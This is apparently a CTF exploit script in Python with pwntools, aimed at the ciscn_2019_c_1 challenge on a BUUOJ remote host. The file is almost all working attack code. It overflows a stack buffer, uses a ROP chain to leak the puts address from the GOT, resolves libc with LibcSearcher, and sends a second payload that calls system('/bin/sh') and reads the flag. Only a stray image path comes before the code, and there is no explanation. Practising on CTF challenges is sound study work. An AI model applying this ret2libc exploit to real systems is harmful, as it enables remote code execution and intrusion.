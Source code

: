 
### exp
```python
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = "debug"

# io = process('./ciscn_2019_c_1')
io = remote('node3.buuoj.cn','28729')
e = ELF('./ciscn_2019_c_1')

io.sendlineafter("your choice!\n","1")

pop_rdi = 0x400c83
ret_addr = 0x4006b9
puts_plt = e.plt['puts']
puts_got = e.got['puts']


payload = 0x58 * 'a' + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(e.symbols['main'])
io.sendlineafter("to be encrypted\n",payload)

io.recvuntil("Ciphertext\n")
io.recvline()
puts_addr = u64(io.recv(6).ljust(8, '\x00'))

success("puts_addr   " + hex(puts_addr))


# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
# libc_base = puts_addr - libc.sym["puts"]
# system_addr = libc_base + libc.sym["system"]
# binsh_addr = libc_base + next(libc.search("/bin/sh"))

libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')

# system_addr = puts_addr - 0x31580
# binsh_addr = puts_addr + 0x1334da

success("system_addr   " + hex(system_addr))
success("binsh_addr   " + hex(binsh_addr))


io.sendlineafter("your choice!\n","1")
# gdb.attach(io)
payload = 0x58 * 'a' + p64(ret_addr) +p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
io.sendlineafter("to be encrypted\n",payload)


io.recvuntil("Ciphertext\n")
io.recvline()
io.sendline('cat flag')
io.recvline()


io.sendline(payload)
```
